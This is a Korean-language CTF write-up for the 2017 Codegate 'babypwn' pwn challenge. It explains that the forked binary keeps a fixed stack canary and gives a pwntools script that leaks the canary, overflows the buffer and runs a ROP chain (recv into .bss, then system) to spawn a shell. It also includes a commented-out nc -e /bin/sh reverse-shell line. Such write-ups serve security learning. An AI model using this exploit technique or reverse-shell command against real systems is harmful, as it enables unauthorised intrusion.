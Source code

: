 ```yaml
---
title: "2017 Codegate babypwn"
date: 2019-11-4
tags: [Codegate]
categories: [Pwn]
---
```


Reverse Shell을 열어서 풀면 된다.

canary leak해주면 되는데 이 바이너리를 보면 fork되어 있는 것을 알 수 있다. 그래서 canary값은 고정이다.

nc 접속해서 ret 전까지 카나리 값 맞춰주면서 덮어주고 recv함수 이용해서 bss영역에 /bin/sh (리버스쉘) 넣은 다음에 system함수로 실행시키면 된다.

<br />

시나리오

> 1. Canary Leak
>
> 2. bof -> rop
>
> 3. rop chain -> recv(4,bss,/bin/sh,0)
>
> 4. system(bss)

<br />

```python
# -*-coding:utf-8-*- 
from pwn import *
 
e = ELF('./babypwn')
p = remote('localhost',8181)
r = ROP(e)
cmd = '/bin/sh'
# cmd = nc -lvp localhost 1234 -e /bin/sh
 
# canary leak
p.sendlineafter('> ','1')
p.sendlineafter(': ','A'*40)
p.recv(41)
canary = u32('\x00'+p.recv(3))
log.info('Canary : ' + hex(canary)) # canary 주소는 고정 fork 사용해서
 
p.close()

# solve
p = remote('localhost',8181)
bss = e.bss()

p.sendlineafter('> ','1')
 
# dummy(52) + sfp(4) + ret
pay = 'A'*40
pay += p32(canary)
pay += 'A'*12
r.recv(4,bss,len(cmd)+2,0)
r.system(bss)
pay += r.chain()
 
p.sendafter(': ',pay)
 
p.recvuntil('> ')
p.sendline('3')
sleep(0.3)
p.sendline(cmd)
 
p.interactive()
```

